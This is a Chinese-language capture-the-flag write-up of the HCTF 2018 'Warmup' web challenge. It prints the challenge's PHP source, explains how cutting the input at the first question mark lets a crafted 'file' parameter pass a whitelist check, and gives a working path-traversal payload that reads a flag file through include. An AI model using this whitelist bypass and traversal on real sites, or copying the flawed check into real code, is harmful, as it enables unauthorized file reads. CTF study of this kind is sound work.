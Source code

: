 ```yaml
---
title: HCTF 2018 Warmup
date: 2022-05-14 22:08:52
toc: false
tags:
- 代码审计
categories: CTF-Web
my: HCTF2018_Warmup
---
```


进入题目只有一个滑稽  我们直接F12看源码发现有一个非常明显的提示 我们直接访问source.php

![](https://s2.loli.net/2022/05/14/UJPSW2dD8os1lG5.png)

得到源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

新的提示！hint.php直接访问 （这也太直白了hhh）

![image.png](https://s2.loli.net/2022/05/14/SIdFDHzUeRYuQpa.png)

我们继续代码审计，下面这段代码的意思是source.php接收一个file参数，当file这个参数满足以下三个条件时返回file指定的文件，否则输出一张图片。

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```

1. file参数不为空
2. file参数是一个string类型
3. file参数能够通过checkFile的检验

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];//设定白名单
if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
//如果file不存在或非字符串，输出"you can't see it"并返回false。


if (in_array($page, $whitelist)) {
                return true;
            }
//如果file参数在白名单中，返回true。访问 source.php?file=source.php 可以看到输出了两次页面源码，证明在这里返回了true。


$_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            $_page = urldecode($page);//上下部分完全相同
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

这段代码在 *$_page = urldecode($page);* 上下的部分都是完全一样的，只是为了防止用户传参时符号被urlencode而无法解析。它的作用是在用户传的file中，从开始截取到第一个问号处（不含问号），如果file中不存在问号，就在file后加一个。将截取后的字符串再与白名单做对比，如果可以就返回true。

我们可以可以通过访问 *source.php?file=source.php?* 来进行验证，这时可以看到页面源码只输出了一次，但并没有输出"you can't see it"，证明白名单检验通过，但source.php?这个文件是不存在的，所以没有任何输出

那么我们就可以利用这里来访问到根目录下的ffffllllaaaagggg

直接构造payload:

```
sosource.php?file=source.php?/../../../../ffffllllaaaagggg
```

在source.php?后加一个"/"这时source.php会被视为一个文件夹，后面每一级的".."意为上一层文件夹，通过不断尝试加入"../"最后可以知道具体的目录层级，以访问到ffffllllaaaagggg。

![image.png](https://s2.loli.net/2022/05/14/DrqKcUvBheYSZIk.png)

